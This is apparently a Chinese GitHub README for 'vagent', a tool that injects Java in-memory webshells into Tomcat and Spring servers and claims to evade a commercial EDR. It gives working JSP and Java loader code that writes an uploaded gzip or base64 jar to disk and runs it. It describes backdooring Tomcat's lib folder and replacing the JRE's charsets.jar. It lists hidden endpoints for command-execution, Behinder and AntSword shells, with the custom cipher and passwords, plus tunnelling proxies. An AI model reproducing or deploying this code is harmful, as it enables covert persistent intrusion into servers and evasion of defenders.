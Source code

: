 # vagent内存马注入工具

### 使用说明：

vagent有四种使用方式，目前所有内置马都可以绕过青藤云EDR

#### 1.命令行方式加载

java -jar vagent.jar

会自动注入内存马到所有java起的服务内



#### 2.Tomcat lib 后门加载

将 vagent.jar 放在 Tomcat 目录下的lib目录就可以了，名字可以随意更改，Tomcat重启后会自动注入内存马



#### 3.jdk/jre Spring后门加载

将 vagent.jar 更名为 charsets.jar 放至 JAVA_HOME/jre/lib/ 目录下，替换原有的charsets.jar文件，Spring重启时会自动注入内存马

根据业务情况，有概率无需重启，发送下面的包就可以注入内存马

```http
GET / HTTP/1.1
Accept: text/html;charset=GBK
```



#### 4. JSP/java代码/命令写入文件 加载



##### 1.JAVA代码方式

需要先上传vagent.jar到目标服务器上

再运行下面的代码注入内存马

```java
java.net.URLClassLoader cl = new java.net.URLClassLoader(new java.net.URL[]{new java.io.File(FilePath).toURI().toURL()});
cl.loadClass("org.apache.catalina.servlets.Attach").getMethod("att", String.class).invoke(null,"ignored");
```



##### 2.JSP方式

```jsp
<%
    try {
        String f = System.getProperty("java.io.tmpdir") + "/" + Math.random();
        java.io.InputStream g = new java.util.zip.GZIPInputStream(request.getInputStream());
        java.io.FileOutputStream o = new java.io.FileOutputStream(f);
        byte[] t = new byte[1024];int n;while((n = g.read(t)) != -1) {o.write(t, 0, n);}g.close();o.close();
        java.net.URLClassLoader cl = new java.net.URLClassLoader(new java.net.URL[]{new java.io.File(f).toURI().toURL()});
        cl.loadClass("org.apache.catalina.servlets.Attach").getMethod("att", String.class).invoke(null,"ignored");
    } catch (Exception e) {
        out.println(e.getMessage());
    }
%>
```

然后用postman 发送gzip压缩后两次，注意是两次，的 vagent.jar 大马文件（用burp的paste from file 会出问题）

base64方式

```
<%
    try {
        String f = System.getProperty("java.io.tmpdir") + "/" + Math.random();
        String b = request.getParameter("c");
        Class base64;
        byte[] value = null;
        try {
            base64 =Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { b });
        }catch (Exception e){
            base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance();
            value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { b });
            e.printStackTrace();
        }
        java.io.InputStream d = new java.io.ByteArrayInputStream(value);
        java.io.InputStream g = new java.util.zip.GZIPInputStream(d);
        java.io.FileOutputStream o = new java.io.FileOutputStream(f);
        byte[] t = new byte[1024];int n;while((n = g.read(t)) != -1) {o.write(t, 0, n);}g.close();o.close();
        java.net.URLClassLoader cl = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("file:///"+f)}, getClass().getClassLoader());
        cl.loadClass("org.apache.catalina.servlets.Attach").getMethod("att", String.class).invoke(null,"ignored");
    }catch (Exception e){
        e.printStackTrace();
    }
%>
```



```bash
//gzip 压缩两次：

cp vagent.jar x
gzip x
mv x.gz x
gzip x
```

##### 3.利用命令写文件，使用vagent-mini先注入小马：

在遇到只有命令执行来写入文件的情况，可以先写入一个vagent-mini.jar小马

然后运行 java -jar vagent-mini.jar 注入小马

vagent-mini小马依赖于jdk环境，如果目标只有jre环境可能会注入失败，vagent大马则jre和jdk环境都通用

链接：以/faviconmini 结尾

```bash
//gzip 压缩两次：

cp vagent.jar x
gzip x
mv x.gz x
gzip x
```

然后用postman 发送gzip压缩两次，注意是两次，后的 vagent.jar 大马文件到链接路径注入大马（用burp的paste from file 会出问题）



### 注入的内存马：

#### 1.冰蝎

链接：以 /faviconb 结尾

密码：自定义加解密协议

```java
private byte[] Encrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] + 1);
    }
    try {
        java.io.ByteArrayOutputStream o = new java.io.ByteArrayOutputStream();
        java.util.zip.GZIPOutputStream g = new java.util.zip.GZIPOutputStream(o);
        g.write(dt);
        g.close();
        byte[] c = o.toByteArray();
        byte[] ct = new byte[c.length];

        for (int i = 0; i < c.length; i++) {
            ct[i] = (byte) (c[i] + 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}


private byte[] Decrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] - 1);
    }
    try {
        java.io.ByteArrayInputStream t = new java.io.ByteArrayInputStream(dt);
        java.util.zip.GZIPInputStream i = new java.util.zip.GZIPInputStream(t, dt.length);
        byte[] c = r(i);
        byte[] ct = new byte[c.length];
        for (int b = 0; b < c.length; b++) {
            ct[b] = (byte) (c[b] - 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}
private byte[] r(java.io.InputStream i) {
    byte[] temp = new byte[1024];
    java.io.ByteArrayOutputStream b = new java.io.ByteArrayOutputStream();
    int n;
    try {
        while((n = i.read(temp)) != -1) {b.write(temp, 0, n);
        }} catch (Exception ignored) {
    }
    return b.toByteArray();
}
```



#### 2.CMD马

链接：以 /faviconc 结尾

POST两次Base64以后的命令



#### 3.JS代码执行马

链接：以 /faviconjs 结尾

POST两次Base64以后的js代码

也可以使用蚁剑连接，密码是a



#### 4.Neo代理内存马

链接：以 /faviconneo 结尾

密码：page，要加--skip

python3 neoreg.py -k page -u URL -p 1083 --skip



#### 5.Suo5代理内存马

链接：以 /faviconsuo 结尾

无需密码



#### 6.WebSocket代理内存马

链接：以 /faviconws 结尾

无需密码，使用gost进行连接












